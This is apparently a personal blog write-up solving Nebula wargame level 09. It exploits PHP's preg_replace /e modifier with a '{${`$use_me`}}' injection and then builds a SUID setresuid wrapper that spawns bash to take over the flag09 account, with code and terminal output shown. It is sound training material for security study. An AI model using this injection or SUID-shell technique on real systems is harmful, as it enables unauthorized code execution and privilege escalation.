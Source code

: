 ```yaml
---
layout: post
title: "Exploit Exercises - Nebula 09"
date: 2011-12-10T05:46:00-05:00
comments: true
categories:
 - Nebula
 - wargames
 - linux
 - exploit-exercises
 - suid
 - injection
 - hacking
---
```


Challenge 09 gave me the most issues out of any other challenge so far.  This may just be because I haven't touched PHP since version 3 was just coming out.  However, it is based on a dangerous function, known as [preg_replace()](http://php.net/manual/en/function.preg-replace.php).  There are several more dangerous functions, some of which can be seen [here](http://stackoverflow.com/questions/3115559/exploitable-php-functions). 

<!-- more -->

The challenge starts by giving us the source code of the program we will be exploiting. 

```
<?php

function spam($email)
{
  $email = preg_replace("/\./", " dot ", $email);
  $email = preg_replace("/@/", " AT ", $email);
  
  return $email;
}

function markup($filename, $use_me)
{
  $contents = file_get_contents($filename);

  $contents = preg_replace("/(\[email (.*)\])/e", "spam(\"\\2\")", $contents);
  $contents = preg_replace("/\[/", "<", $contents);
  $contents = preg_replace("/\]/", ">", $contents);

  return $contents;
}

$output = markup($argv[1], $argv[2]);

print $output;

?>
```

What I noticed immediately, was that the program accepted 2 arguments, but never used the second one, other than to pass it into the "markup" function as "$use_me".  This seemed odd, so I figured it had to do something with that.  I also thought at first that the "spam" function was never being called, but then noticed it in quotes on the first line of "preg_replace" statements.  I had to look this function up, and find out that it would evaluate the code at run-time.  This means that I needed to inject code into that call to "spam()". 

I tried doing some basic injection to try to get something equivelent to it calling: 

```
spam("");system("/bin/bash");print("");
```

However this never worked, because of the [PCRE modifiers](http://www.php.net/manual/en/reference.pcre.pattern.modifiers.php) built into PHP.  They automatically will escape single and double quotes, as well as backticks (at least according to the docs).  I spent <b>hours</b> trying to inject various strings to get some sort of code execution. 

Somewhere along the line, I read a page (sorry I can't seem to find it again) where they mentioned using an alternative syntax to the backreferences in preg_replace.  So instead of using \\2, you could use ${2}.  This is covered slightly on the [preg_replace](http://php.net/manual/en/function.preg-replace.php) php function reference.  What that reference doesn't show, is that you can apparently have that not just reference parameters, but any variable in the code.  After tinkering a while, I settled on a pattern.  I created a file named, /tmp/level09.txt 

```
[email {${`$use_me`}}]
```

Firstly, I had to start with "[email " and end with "]" to get it into this regex at all.  Because of the PCRE modifiers, I used back-ticks, because in researching them, I ran across a [blog post](http://www.madirish.net/node/437) saying that back-ticks were able to bypass them somehow.  So with variable expansion, and the PCRE modifier bypass, this should let me inject some code into the function. 

Because running a "system()" or "exec()" method in the php caused me problems with interactivity, I opted to use commands that required no interaction at run-time.  I again used my /tmp/bash_id.c file from challenge 07: 

```
#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>
#include <unistd.h>

int main(int argc, char *argv[])
{
    if (argc != 2)
        printf("usage: %s <user id>\n", argv[0]);
    else {
        int i = atoi(argv[1]);
        setresuid(i, i, i);
        setresgid(i, i, i);
        system( "/bin/bash" );
    }
    return 0;
}
```

I then would call the compiled SUID version of the php file with 2 parameters.  The first would be the text file I wanted to parse, and the second would be the commands I wanted to run, which would get inserted into the $use_me variable. 


```
level09@nebula:/home/flag09$ ./flag09 /tmp/level09.txt "gcc -o /home/flag09/bash_id /tmp/bash_id.c;chmod +s,a+rwx /home/flag09/bash_id"
PHP Notice:  Undefined variable:  in /home/flag09/flag09.php(15) : regexp code on line 1
```

This compiled my bash_id.c source file to the flag09 user's home directory, and marked it SUID.  I ignored the PHP Notice, since I knew I was tinkering. 

After making sure the bash_id program did get created properly, I just needed to call it with the userid of flag09 as the first parameter. 

```
level09@nebula:/home/flag09$ ./bash_id `cat /etc/passwd | grep flag09 | cut -d : -f 3`
flag09@nebula:/home/flag09$ getflag
You have successfully executed getflag on a target account
```

This apparently worked, so I ran the "getflag" command as usual, marking completion of this challenge.  This was by far the most guessing I've had to do on any of the challenges so far.  I really hope that I don't get stuck soon, leaving me unable to continue on.
